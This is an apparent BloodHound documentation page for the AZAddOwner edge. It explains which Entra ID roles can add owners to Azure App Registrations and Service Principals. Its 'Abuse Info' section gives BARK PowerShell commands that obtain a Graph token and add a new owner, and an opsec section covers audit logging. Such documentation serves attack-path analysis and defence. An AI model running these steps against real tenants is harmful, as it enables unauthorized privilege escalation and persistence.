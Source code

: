 ```yaml
---
title: AZAddOwner
description: "This edge is created during post-processing."
---
```


<Frame>
  <img noZoom src="/assets/image-2-1.png"/>
</Frame>

It is created against all App Registrations and Service Principals within the same tenant when an Azure principal has one of the following Entra ID roles:

* Hybrid Identity Administrator
* Partner Tier1 Support
* Partner Tier2 Support
* Directory Synchronization Accounts

You will not see these privileges when auditing permissions against any of the mentioned objects when you use Microsoft tooling, including the Azure portal or any API.

## Abuse Info

You can use BARK to add a new owner to the target object. The BARK function you use will depend on the target object type, but all of the functions follow a similar syntax.

These functions require you to supply an MS Graph-scoped JWT associated with the principal that has the privilege to add a new owner to your target object. There are several ways to acquire a JWT. For example, you may use BARK’s Get-GraphTokenWithRefreshToken to acquire an MS Graph-scoped JWT by supplying a refresh token:

```bash
$MGToken = Get-GraphTokenWithRefreshToken `
    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
    -TenantID "contoso.onmicrosoft.com"
```

To add a new owner to a Service Principal, use BARK’s New-ServicePrincipalOwner function:

```bash
New-ServicePrincipalOwner `
    -ServicePrincipalObjectId "082cf9b3-24e2-427b-bcde-88ffdccb5fad" `
    -NewOwnerObjectId "cea271c4-7b01-4f57-932d-99d752bbbc60" `
    -Token $Token
```
To add a new owner to an App Registration, use BARK’s New-AppOwner function:

```bash
New-AppOwner `
    -AppObjectId "52114a0d-fa5b-4ee5-9a29-2ba048d46eee" `
    -NewOwnerObjectId "cea271c4-7b01-4f57-932d-99d752bbbc60" `
    -Token $Token
```
## Opsec Considerations

Any time you add an owner to any Azure object, the AzureAD audit logs will create an event logging who added an owner to what object, as well as what the new owner added to the object was.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)